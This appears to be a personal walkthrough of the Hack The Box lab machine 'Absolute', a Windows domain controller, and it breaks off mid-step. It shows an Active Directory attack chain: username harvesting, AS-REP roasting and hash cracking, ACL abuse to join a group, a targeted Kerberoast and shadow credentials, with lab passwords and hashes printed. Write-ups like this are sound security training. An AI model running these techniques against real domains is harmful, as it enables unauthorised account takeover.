





# Absolute
## Host file setup
```python
sudo nxc smb 10.129.232.60 --generate-hosts-file /etc/hosts
[sudo] password for kali: 
SMB         10.129.232.60   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
```

## Enumeration
### Open ports
```python
nmap -p- --min-rate=2000 -sT dc.absolute.htb                                                           
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 15:26 +0100
Nmap scan report for dc.absolute.htb (10.129.232.60)
Host is up (0.012s latency).
rDNS record for 10.129.232.60: DC.absolute.htb
Not shown: 65509 closed tcp ports (conn-refused)
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49677/tcp open  unknown
49690/tcp open  unknown
49691/tcp open  unknown
49695/tcp open  unknown
49712/tcp open  unknown
49715/tcp open  unknown
51753/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 11.52 seconds
```

### Nmap
```python
nmap -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389 -A --min-rate=2000 -sT dc.absolute.htb
Starting Nmap 7.99 ( https://nmap.org ) at 2026-08-16 15:28 +0100
Nmap scan report for dc.absolute.htb (10.129.232.60)
Host is up (0.013s latency).
rDNS record for 10.129.232.60: DC.absolute.htb

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Absolute
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-08-16 21:28:47Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.absolute.htb, DNS:absolute.htb, DNS:absolute
| Not valid before: 2026-05-26T20:10:43
|_Not valid after:  2043-07-17T21:20:54
|_ssl-date: 2026-08-16T21:29:40+00:00; +6h59m55s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb, Site: Default-First-Site-Name)
|_ssl-date: 2026-08-16T21:29:40+00:00; +6h59m55s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.absolute.htb, DNS:absolute.htb, DNS:absolute
| Not valid before: 2026-05-26T20:10:43
|_Not valid after:  2043-07-17T21:20:54
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: absolute.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.absolute.htb, DNS:absolute.htb, DNS:absolute
| Not valid before: 2026-05-26T20:10:43
|_Not valid after:  2043-07-17T21:20:54
|_ssl-date: 2026-08-16T21:29:40+00:00; +6h59m55s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: absolute.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:dc.absolute.htb, DNS:absolute.htb, DNS:absolute
| Not valid before: 2026-05-26T20:10:43
|_Not valid after:  2043-07-17T21:20:54
|_ssl-date: 2026-08-16T21:29:40+00:00; +6h59m55s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 10|2019|11|2022|2012|2016 (96%)
OS CPE: cpe:/o:microsoft:windows_10 cpe:/o:microsoft:windows_server_2019 cpe:/o:microsoft:windows_11 cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows 10 1909 - 2004 (96%), Microsoft Windows Server 2019 (96%), Microsoft Windows 10 1709 - 22H2 (94%), Microsoft Windows 10 1909 (92%), Microsoft Windows 11 24H2 - 25H2 (92%), Microsoft Windows Server 2022 (92%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows 10 20H2 (90%), Microsoft Windows Server 2016 (89%), Microsoft Windows 10 1703 or Windows 11 21H2 - 23H2 (89%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## SMB (445)

Null auth is enabled by default on all DCs, but i cannot do anything with it here

Guest account is also disabled!

## HTTP (80)

Nuclei did not find anything

No vhosts

```python
exiftool hero_1.jpg 
ExifTool Version Number         : 13.55
File Name                       : hero_1.jpg
Directory                       : .
File Size                       : 407 kB
File Modification Date/Time     : 2022:06:07 20:45:20+01:00
File Access Date/Time           : 2026:08:16 15:51:10+01:00
File Inode Change Date/Time     : 2026:08:16 15:51:10+01:00
File Permissions                : -rw-rw-r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
Exif Byte Order                 : Little-endian (Intel, II)
X Resolution                    : 72
Y Resolution                    : 72
Resolution Unit                 : inches
Artist                          : James Roberts
Y Cb Cr Positioning             : Centered
Quality                         : 60%
XMP Toolkit                     : Image::ExifTool 11.88
Author                          : James Roberts
Creator Tool                    : Adobe Photoshop CC 2018 Macintosh
Derived From Document ID        : 6413FD608B5C21D0939F910C0EFBBE44
Derived From Instance ID        : 6413FD608B5C21D0939F910C0EFBBE44
Document ID                     : xmp.did:887A47FA048811EA8574B646AF4FC464
Instance ID                     : xmp.iid:887A47F9048811EA8574B646AF4FC464
DCT Encode Version              : 100
APP14 Flags 0                   : [14], Encoded with Blend=1 downsampling
APP14 Flags 1                   : (none)
Color Transform                 : YCbCr
Image Width                     : 1900
Image Height                    : 1150
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:4:4 (1 1)
Image Size                      : 1900x1150
Megapixels                      : 2.2
```

Feroxbuster found some images and after using wget to download one of them, i see a username in the metadata. I might be able to use this to get some valid usernames

Using the same naming convention for the image i found 6 images with 6 different names!

```python
cat names.txt               
james roberts
michael chaffrey
donald klay
sarah osvald
jeffer robinson
nicole smith
```

Ill run these through username anarchy to create a possible user list

```python
./username-anarchy -i ../names.txt | tee ../possible-users.txt
james
jamesroberts
james.roberts
jamesrob
jamerobe
jamesr
j.roberts
jroberts
rjames
r.james
robertsj
roberts
roberts.j
roberts.james
jr
michael
michaelchaffrey
michael.chaffrey
michaelc
michchaf
m.chaffrey
mchaffrey
cmichael
c.michael
chaffreym
chaffrey
chaffrey.m
chaffrey.michael
mc
donald
donaldklay
donald.klay
donaldkl
donaklay
donaldk
d.klay
dklay
kdonald
k.donald
klayd
klay
klay.d
klay.donald
dk
sarah
sarahosvald
sarah.osvald
sarahosv
saraosva
saraho
s.osvald
sosvald
osarah
o.sarah
osvalds
osvald
osvald.s
osvald.sarah
so
jeffer
jefferrobinson
jeffer.robinson
jefferro
jeffrobi
jefferr
j.robinson
jrobinson
rjeffer
r.jeffer
robinsonj
robinson
robinson.j
robinson.jeffer
nicole
nicolesmith
nicole.smith
nicolesm
nicosmit
nicoles
n.smith
nsmith
snicole
s.nicole
smithn
smith
smith.n
smith.nicole
ns
```

So ive cloned the GH repo, then ran it against the names file then saved the output to another file which i can now run against kerbrute with userenum

```python
kerbrute userenum --dc dc.absolute.htb -d absolute.htb possible-users.txt                                             

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/16/26 - Ronnie Flathers @ropnop

2026/08/16 16:00:32 >  Using KDC(s):
2026/08/16 16:00:32 >  	dc.absolute.htb:88

2026/08/16 16:00:32 >  [+] VALID USERNAME:	j.roberts@absolute.htb
2026/08/16 16:00:32 >  [+] VALID USERNAME:	m.chaffrey@absolute.htb
2026/08/16 16:00:32 >  [+] VALID USERNAME:	s.osvald@absolute.htb
2026/08/16 16:00:32 >  [+] VALID USERNAME:	d.klay@absolute.htb
2026/08/16 16:00:32 >  [+] VALID USERNAME:	j.robinson@absolute.htb
2026/08/16 16:00:32 >  [+] VALID USERNAME:	n.smith@absolute.htb
2026/08/16 16:00:32 >  Done! Tested 88 usernames (6 valid) in 0.127 seconds
```

I have found 6 valid users!

Ill place these into a userlist!

## AS-REP roasting leads to user compromise

```python
nxc ldap dc.absolute.htb -u users.txt -p '' --asreproast asrep.hash
LDAP        10.129.232.60   389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:absolute.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.232.60   389    DC               $krb5asrep$23$d.klay@ABSOLUTE.HTB:62accb3e3c118998ea1c498dfbe829d9$3756dba6189243faa0fa53856856a70700619d67ffa6b9b5b47bcf1f7f482ecf1f94582e25e282e416b439856344af99f65965078db02d9e7f7a85c5d64d0915fdf25489fc37e6b421e59fae0e2f99efd84eca5fb40a054f3aa4f4dc5d3a9dbe35364834647483c242d3251213cc7ad88f8ab332767080f5227d0cb40c04bbe00ee345f9fcfcda0ee7eb8582eccbf39e51ba63ab7ea193e6ad8958d0f4d14ddfe81a066239727abee6ee77aa8e6023a9b6044fc3361595bd20bbf892d207aa7d1b4900adec7b001d3a6c497eb41b0c17fe83511a04a80930bf763fc45b4ca31b848c68f19c7bcf6a27d26861
```

Its also an E type 23 hash, which indicates RC4 algorithm, which means its likely to crack

```python
hashcat asrep.hash /usr/share/wordlists/rockyou.txt

$krb5asrep$23$d.klay@ABSOLUTE.HTB:62accb3e3c118998ea1c498dfbe829d9$3756dba6189243faa0fa53856856a70700619d67ffa6b9b5b47bcf1f7f482ecf1f94582e25e282e416b439856344af99f65965078db02d9e7f7a85c5d64d0915fdf25489fc37e6b421e59fae0e2f99efd84eca5fb40a054f3aa4f4dc5d3a9dbe35364834647483c242d3251213cc7ad88f8ab332767080f5227d0cb40c04bbe00ee345f9fcfcda0ee7eb8582eccbf39e51ba63ab7ea193e6ad8958d0f4d14ddfe81a066239727abee6ee77aa8e6023a9b6044fc3361595bd20bbf892d207aa7d1b4900adec7b001d3a6c497eb41b0c17fe83511a04a80930bf763fc45b4ca31b848c68f19c7bcf6a27d26861:Darkmoonsky248girl
```

The hash cracked

```python
nxc smb dc.absolute.htb -u d.klay -p 'Darkmoonsky248girl'          
SMB         10.129.232.60   445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.232.60   445    DC               [-] absolute.htb\d.klay:Darkmoonsky248girl STATUS_ACCOUNT_RESTRICTION
```

there is a restriction on the user, this could be because the user is protected users

```python
ntpdate dc.absolute.htb                                     
2026-08-16 23:08:44.097863 (+0100) +25195.459747 +/- 0.006589 dc.absolute.htb 10.129.232.60 s1 no-leap
CLOCK: step_systime: Operation not permitted
```

Ill read the time of the domain controller

```python
faketime '23:08:44.097863' nxc smb dc.absolute.htb -u d.klay -p 'Darkmoonsky248girl' -k
SMB         dc.absolute.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.absolute.htb 445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl
```

Then ill sync with it, then us kerberos auth to bypass the restriction

Alternatively, i could use `faketime -f +7h` to save having to keep changing the time!

## Enumeration as `k.clay`

```python
faketime -f +7h nxc smb dc.absolute.htb -u d.klay -p 'Darkmoonsky248girl' -k --shares
SMB         dc.absolute.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.absolute.htb 445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
SMB         dc.absolute.htb 445    DC               [*] Enumerated shares
SMB         dc.absolute.htb 445    DC               Share           Permissions     Remark
SMB         dc.absolute.htb 445    DC               -----           -----------     ------
SMB         dc.absolute.htb 445    DC               ADMIN$                          Remote Admin
SMB         dc.absolute.htb 445    DC               C$                              Default share
SMB         dc.absolute.htb 445    DC               IPC$            READ            Remote IPC
SMB         dc.absolute.htb 445    DC               NETLOGON        READ            Logon server share 
SMB         dc.absolute.htb 445    DC               Shared                          
SMB         dc.absolute.htb 445    DC               SYSVOL          READ            Logon server share
```

Read access on default shares

```python
faketime -f +7h nxc smb dc.absolute.htb -u d.klay -p 'Darkmoonsky248girl' -k --rid-brute 20000 | grep '(SidTypeUser)' | cut -d '\' -f 2 | cut -d ' ' -f 1 | tee users.txt
Administrator
Guest
krbtgt
DC$
J.Roberts
M.Chaffrey
D.Klay
s.osvald
j.robinson
n.smith
m.lovegod
l.moore
c.colt
s.johnson
d.lemm
svc_smb
svc_audit
winrm_user
```

Now using my credentials, i can dump the full user list

There are also no kerberoatable users

## Compromising `svc_smb`

```python
faketime -f +7h nxc smb dc.absolute.htb -u d.klay -p 'Darkmoonsky248girl' -k --users             
SMB         dc.absolute.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.absolute.htb 445    DC               [+] absolute.htb\d.klay:Darkmoonsky248girl 
SMB         dc.absolute.htb 445    DC               -Username-                    -Last PW Set-       -BadPW- -Description-                                               
SMB         dc.absolute.htb 445    DC               Administrator                 2022-06-09 08:25:57 0       Built-in account for administering the computer/domain 
SMB         dc.absolute.htb 445    DC               Guest                         <never>             0       Built-in account for guest access to the computer/domain 
SMB         dc.absolute.htb 445    DC               krbtgt                        2022-06-09 08:16:38 0       Key Distribution Center Service Account 
SMB         dc.absolute.htb 445    DC               J.Roberts                     2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               M.Chaffrey                    2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               D.Klay                        2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               s.osvald                      2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               j.robinson                    2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               n.smith                       2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               m.lovegod                     2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               l.moore                       2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               c.colt                        2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               s.johnson                     2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               d.lemm                        2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               svc_smb                       2022-06-09 08:25:51 0       AbsoluteSMBService123! 
SMB         dc.absolute.htb 445    DC               svc_audit                     2022-06-09 08:25:51 0        
SMB         dc.absolute.htb 445    DC               winrm_user                    2022-06-09 08:25:51 0       Used to perform simple network tasks 
```

I chose to use the `--user` flag in SMB simply to display user account descriptions!

And i have found a password

```python
faketime -f +7h nxc smb dc.absolute.htb -u svc_smb -p 'AbsoluteSMBService123!' -k       
SMB         dc.absolute.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.absolute.htb 445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123!
```

This user is now compromised

```python
faketime -f +7h nxc smb dc.absolute.htb -u svc_smb -p 'AbsoluteSMBService123!' -k --shares
SMB         dc.absolute.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.absolute.htb 445    DC               [+] absolute.htb\svc_smb:AbsoluteSMBService123! 
SMB         dc.absolute.htb 445    DC               [*] Enumerated shares
SMB         dc.absolute.htb 445    DC               Share           Permissions     Remark
SMB         dc.absolute.htb 445    DC               -----           -----------     ------
SMB         dc.absolute.htb 445    DC               ADMIN$                          Remote Admin
SMB         dc.absolute.htb 445    DC               C$                              Default share
SMB         dc.absolute.htb 445    DC               IPC$            READ            Remote IPC
SMB         dc.absolute.htb 445    DC               NETLOGON        READ            Logon server share 
SMB         dc.absolute.htb 445    DC               Shared          READ            
SMB         dc.absolute.htb 445    DC               SYSVOL          READ            Logon server share
```

This user has read access on the `Shared` SMB share

## Enumeration as `svc_smb`

```python
faketime -f +7h smbclient.py absolute.htb/'svc_smb':'AbsoluteSMBService123!'@dc.absolute.htb -k
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

Type help for list of commands
# use Shared
# ls
drw-rw-rw-          0  Thu Sep  1 18:02:23 2022 .
drw-rw-rw-          0  Thu Sep  1 18:02:23 2022 ..
-rw-rw-rw-         72  Thu Sep  1 18:02:23 2022 compiler.sh
-rw-rw-rw-      67584  Thu Sep  1 18:02:23 2022 test.exe
# 
```

So ill access the `Shared` share, and find some interesting files!

```python
cat compiler.sh       
#!/bin/bash

nim c -d:mingw --app:gui --cc:gcc -d:danger -d:strip $1
```

Looks like a bash script that simply compiles code

Ill do some reverse engineering on `test.exe`

## Dynamic Analysis on `test.exe`

So to do this ill transfer the exe to a windows VM then do some dynamic analysis on it to see how it behaves after execution



As seen here after starting wireshark, then running the exe i see a load of DNS traffic.

If i add the entry into the hosts file on windows, i should see more info

Now after updating the hosts file ill re run the program



I now have credentials!

## Compromising `m.lovegod`

```python
faketime -f +7h nxc smb dc.absolute.htb -u m.lovegod -p 'AbsoluteLDAP2022!' -k 
SMB         dc.absolute.htb 445    DC               [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC) (domain:absolute.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         dc.absolute.htb 445    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022!
```

This user is now compromised!

## Enumeration as `m.lovegod`



I have WriteOwner over a group

## Abusing `WriteOwner` on the `network audit` group

```python
faketime -f +7h owneredit.py -action write -new-owner 'm.lovegod' -target-dn 'CN=NETWORK AUDIT,CN=USERS,DC=ABSOLUTE,DC=HTB' 'absolute.htb'/m.lovegod:'AbsoluteLDAP2022!' -k -dc-ip 10.129.232.60
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
[*] Current owner information below
[*] - SID: S-1-5-21-4078382237-1492182817-2568127209-1109
[*] - sAMAccountName: m.lovegod
[*] - distinguishedName: CN=m.lovegod,CN=Users,DC=absolute,DC=htb
[*] OwnerSid modified successfully!
```

First ill grant ownership over the object

```python
faketime -f +7h dacledit.py -action write -rights 'WriteMembers' -principal 'm.lovegod' -target-dn 'CN=NETWORK AUDIT,CN=USERS,DC=ABSOLUTE,DC=HTB' 'absolute.htb'/m.lovegod:'AbsoluteLDAP2022!' -k -dc-ip 10.129.232.60
Impacket v0.13.1 - Copyright Fortra, LLC and its affiliated companies 

[-] CCache file is not found. Skipping...
/home/kali/.local/bin/dacledit.py:390: DeprecationWarning: codecs.open() is deprecated. Use open() instead.
  with codecs.open(self.filename, 'w', 'utf-8') as outfile:
[*] DACL backed up to dacledit-20260817-022737.bak
[*] DACL modified successfully!
```

Then ill grant myself the permission to add members

```python
bloodyAD --host dc.absolute.htb -d absolute.htb -u m.lovegod -p 'AbsoluteLDAP2022!' -k add groupMember 'network audit' 'm.lovegod'
Clock skew detected. Adjusting local time by 6:59:54.678161. Retrying operation.
[+] m.lovegod added to network audit
```

Then ill add myself to the group

## Compromising `winrm_user`

So now im part of the `network audit` group i can abuse GenericWrite



Ill start by trying a targeted kerberoast

### Targeted Kerberoast (Fail!)

```python
faketime -f +7h bloodyAD --host dc.absolute.htb -d absolute.htb -u m.lovegod -p 'AbsoluteLDAP2022!' -k set object 'winrm_user' servicePrincipalName -v 'service/hacked'
[+] winrm_user's servicePrincipalName has been updated
```

First ill add an SPN

```python
faketime -f +7h nxc ldap dc.absolute.htb -u m.lovegod -p 'AbsoluteLDAP2022!' -k --kerberoasting winrmuser.hash                                
LDAP        dc.absolute.htb 389    DC               [*] Windows 10 / Server 2019 Build 17763 (name:DC) (domain:absolute.htb) (signing:None) (channel binding:Never) 
LDAP        dc.absolute.htb 389    DC               [+] absolute.htb\m.lovegod:AbsoluteLDAP2022! 
LDAP        dc.absolute.htb 389    DC               [*] Skipping disabled account: krbtgt
LDAP        dc.absolute.htb 389    DC               [*] Total of records returned 1
LDAP        dc.absolute.htb 389    DC               [*] sAMAccountName: winrm_user, memberOf: ['CN=Protected Users,CN=Users,DC=absolute,DC=htb', 'CN=Remote Management Users,CN=Builtin,DC=absolute,DC=htb'], pwdLastSet: 2022-06-09 09:25:51.537539, lastLogon: 2022-06-09 15:13:12.045465
LDAP        dc.absolute.htb 389    DC               $krb5tgs$23$*winrm_user$ABSOLUTE.HTB$absolute.htb\winrm_user*$7c5c5204da7d13dc9244a3847d3d11a1$80c933697e00a65ace83098f3f59834d350a11ce03b26f9e1034a03d782ce7d643135ae522beaa54a5e3049793ba21f9ef6008be3c1ef564cee9a54a4a08977af661475744c838c9153a41f3b5005f25515806983efea8f332bb781be8b6ab40dd6adcd5c29ea34ad41fb89fe360538225e406ddd410e2704ff77ab812221d0bd6ec034c35708e27738afe0d5e7b07480c4bb6066fe34c94d87e48c21112fca78df49e63112fffe01bf196ec748b204133417c3b4a44984d44c1d05c8bd79f740d6fd8112a73404d1470bbc33032a31351307193dacf2361819878b32b07c9da13f972499878b1f8a8a44e83ddba664eb485cdf665194b9a3ee9ca9f12621c20675287eea040b475dc9c19399a80d7c0da3bb94abea5c6b5a74ca8bf9c1e2ef17e3b6cd5f9f5997ba760819f8a3932abceaa4665216320a006686f6bb6946f96d4d68f1f34fe3d62296ef62129f44d7234bff0ea2682e4b4da59a704021325a4965a1c743bf2a501be2c95f8efcd1471a5504ccab6702dbf7eae0f85399573164515a43cc029ad83aa06422101fa49a81e6a706f9942a8c61d6ee8f0187c4baa29df803b69922cecf9e855797d7898c29f594ef7888aae58e8ae4e30d577f15959e7da0bae815ce4edb3ce0feeede5dc95362206b5ee9841ebbb10d892dd3bb42ff2c403776cf93c06f47ef879e78fbbb1fa2ffe42bfc15e88afbf1a6a59b4eafaf59ff9e2b9b6df877fb1f88379df2ade7bf354b4504d33dfdba5eadd57cd7988a62371a41bc5068ec2344337f81672491890591d57a2772a3a5ce3841ba2ab1d10de23f320d16242d1f2af299776154aef57b3c1b75d35a4bd08254f492f64d536f9916d2f26838e4f6cbf24061030c4bc4e0a40d050ad0fb82f75ff9d4c1f55993a40f019e3a7c0e623a6e6d82b63c698e3dd1f244eaf06e187d09f8bf98ccf8abc5ed0a919a72e911e22e55e3feadb811ecb76a9d28f306d936597473cf2c46e53ef9ac1189e4c9f725ead66db32c559051d5363d8d03234e47888e5a5c3122afa028d2c376a2f4a70972fce65ba324ef98f9f5ac2ca46140671636925a7be57bf5e69781f9fcfdb32509f776b8aeaea832786764bf4c5ba18b6c71f4af97ddc9a89d28e0a518ef2b7ea64acfdaaaa7a1f33fa5325f588db708c1e95ce2ae275733867d2f4fc2293f9ca849f566b52f64d8a1a69b5c6d44bed4a0271e4855fe77c4e85e6711bf3f14dc5135ae7a66f35496a29e55a6a41e8251191c1170d6810185a625fbe5c1754f595e7c90bb982701f9c77128215ed8c858c2c790eb38de6d138eabc1941f53b051d2e554fa4da81999955694938be1084d45a02056c5cc49912d7f15759e6cae05b0b49d8d8197724e79c31f58626793317d7c3fa324576e4e28bc4cce4b627cfde5799dbaedc93d3b8ae56fe10c8572dceb81694af81710cd19b1c87f86a56a48b0654
```

Now ill dump the hash, once again E type 23, so thats RC4 hashing algorithm

The hash did not crack! So ill try a shadow credentials attack

### Shadow Credentials

```python
faketime -f +7h certipy-ad shadow auto -u 'm.lovegod@absolute.htb' -p 'AbsoluteLDAP2022!' -k -account 'winrm_user' -dc-host dc.absolute.htb -dc-ip 10.129.232.60 -ldap-scheme ldap
Certipy v5.1.0 - by Oliver Lyak (ly4k)

[!] KRB5CCNAME environment variable not set
[!] Target name (-target) not specified and Kerberos authentication is used. This might fail
[*] Targeting user 'winrm_user'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '9e919bb14555488cb82acfc7b6036f80'
[*] Adding Key Credential with device ID '9e919bb14555488cb82acfc7b6036f80' to the Key Credentials for 'winrm_user'
[*] Successfully added Key Credential with device ID '9e919bb14555488cb82acfc7b6036f80' to the Key Credentials for 'winrm_user'
[*] Authenticating as 'winrm_user' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'winrm_user@absolute.htb'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'winrm_user.ccache'
[*] Wrote credential cache to 'winrm_user.ccache'
[*] Trying to retrieve NT hash for 'winrm_user'
[*] Restoring the old Key Credentials for 'winrm_user'
[*] Successfully restored the old Key Credentials for 'winrm_user'
[*] NT hash for 'winrm_user': 8738c7413a5da3bc1d083efc0ab06cb2
```

I now have the NTLM hash of the user, so now i can get access over WINRM

But since this user is part of the protected users, ill have to setup a realm

## Access as `winrm_user` on winrm

So before i can authenticate ill have to setup a realm

```python
